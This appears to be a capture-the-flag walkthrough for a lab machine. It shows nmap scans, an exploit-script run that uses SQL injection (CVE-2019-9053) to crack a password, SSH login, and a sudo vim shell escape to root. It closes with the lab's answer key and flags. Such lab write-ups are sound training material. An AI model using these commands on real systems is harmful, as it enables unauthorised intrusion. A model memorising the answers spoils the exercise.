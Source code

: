 Scan all tcp ports on target machine
```
─# nmap -p- 10.10.85.90 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-11-13 00:51 UTC
Nmap scan report for ip-10-10-85-90.eu-west-1.compute.internal (10.10.85.90)
Host is up (0.00071s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2222/tcp open  EtherNetIP-1
MAC Address: 02:D1:DE:7B:02:ED (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 105.00 seconds
```

Scan port 21, 80 and 2222 along with checking the version and software running on the port. 
The scan will also include running scripts from the nmap scripts module. 
```
└─# nmap -p 21,80,2222 -sVC 10.10.85.90 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-11-13 00:56 UTC
Nmap scan report for ip-10-10-85-90.eu-west-1.compute.internal (10.10.85.90)
Host is up (0.00028s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.163.213
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 294269149ecad917988c27723acda923 (RSA)
|   256 9bd165075108006198de95ed3ae3811c (ECDSA)
|_  256 12651b61cf4de575fef4e8d46e102af6 (ED25519)
MAC Address: 02:D1:DE:7B:02:ED (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.37 seconds
```

```
python3 46635.py -u http://10.10.221.99/simple --crack -w best110.txt
```

```
ssh mitch@10.10.221.99 -p 2222 
password: secret
```

```
cd /home/mitch
cat user.txt
```

```
sudo -l 
sudo vim -c ':!/bin/sh'
cd /root 
cat root.txt 
```
#### Questions

How many services are running under port 1000?  
```
2
```

What is running on the higher port?  
```
2222
```

What's the CVE you're using against the application?  
```
CVE-2019-9053
```

To what kind of vulnerability is the application vulnerable?  
```
sqli
```

What's the password?  
```
secret
```

Where can you login with the details obtained?  
```
ssh 
```

What's the user flag?  
```
G00d j0b, keep up!
```

Is there any other user in the home directory? What's its name?  
```
sunbath
```

What can you leverage to spawn a privileged shell?  
```
vim
```

What's the root flag?
```
W3ll d0n3. You made it!
```